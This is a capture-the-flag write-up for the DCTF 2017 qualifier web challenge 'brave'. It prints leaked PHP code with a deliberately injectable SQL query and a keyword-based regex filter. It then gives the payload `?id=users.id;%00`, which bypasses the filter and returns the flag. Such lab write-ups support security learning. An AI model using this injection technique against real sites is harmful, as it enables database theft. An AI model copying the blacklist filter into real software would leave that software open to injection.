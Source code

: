 # Challenge

https://brave.dctf-quals-17.def.camp/

# Walkthrough/Solution

Visiting the website shows us a plain `NOP`. Turns out that the website stores a backup file of `index.php` and the source can be viewed by visiting `https://brave.dctf-quals-17.def.camp/index.php~`:

```
<?php

$db  = mysqli_connect('localhost','web_brave','','web_brave');

$id  = @$_GET['id'];
$key = $db->real_escape_string(@$_GET['key']);

if(preg_match('/\s|[\(\)\'"\/\\=&\|1-9]|#|\/\*|into|file|case|group|order|having|limit|and|or|not|null|union|select|from|where|--/i', $id))
    die('Attack Detected. Try harder: '. $_SERVER['REMOTE_ADDR']); // attack detected

$query = "SELECT `id`,`name`,`key` FROM `users` WHERE `id` = $id AND `key` = '".$key."'";
$q = $db->query($query);

if($q->num_rows) {
    echo '<h3>Users:</h3><ul>';
    while($row = $q->fetch_array()) {
        echo '<li>'.$row['name'].'</li>';
    }

    echo '</ul>';
} else {    
    die('<h3>Nop.</h3>');
}
```
On first look, I tried to bypass `real_escape_string` by trying multibyte injection but nothing seemed to be working.  

What's left is to deconstruct what `preg_match` is filtering and finding a way to bypass the filters so that a successful SQL query can be constructed to read the database.

The if statement filtered almost everything that a SQL statement would use except `;`.

Since that is the case, let us use stacked queries to construct our own customized SQL query.

This payload can be used to read the database contents: `https://brave.dctf-quals-17.def.camp/?id=users.id;%00`

1. `users.id` refers to all the values of the id column in the users table, thus it is valid field.
2. `;` would end the first query.
3. `%00` would mark the termination of the second string which would allow us to execute the first query successfully.

This was what the website returned:
```
Users:

Try Harder
DCTF{602dcfeedd3aae23f05cf93d121907ec925bd70c50d78ac839ad48c0a93cfc54}
```
# Learning outcome
1. Stacked queries
